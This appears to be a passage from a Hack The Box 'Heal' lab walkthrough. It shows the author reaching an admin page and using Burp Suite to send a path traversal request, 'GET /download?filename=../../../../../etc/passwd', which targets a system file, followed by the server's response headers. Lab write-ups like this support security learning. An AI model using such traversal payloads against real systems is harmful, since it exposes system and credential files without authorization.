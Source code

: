 I tried access `http://take-survey.heal.htb/index.php/admin` and it took me a new page.

![](/assets/img/sample/heal/admin_login.png)

I used the tool `Burp Suite` to perform packet interception.

![](/assets/img/sample/heal/export_img.png)

Send a request like in the image above to Repeater, then change first line of the request from `POST /exports HTTP/1.1` to `GET /download?filename=../../../../../etc/passwd HTTP/1.1` and click the `Send` button. Finally, we get te folowing responses:

~~~ 
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Mon, 10 Feb 2025 07:33:49 GMT
Content-Type: application/octet-stream
Content-Length: 2120
Connection: keep-alive
access-control-allow-origin: http://heal.htb
access-control-allow-methods: GET, POST, PUT, PATCH, DELETE, OPTIONS, HEAD
access-control-expose-headers:
access-control-max-age: 7200
x-frame-options: SAMEORIGIN
x-xss-protection: 0
x-content-type-options: nosniff
~~~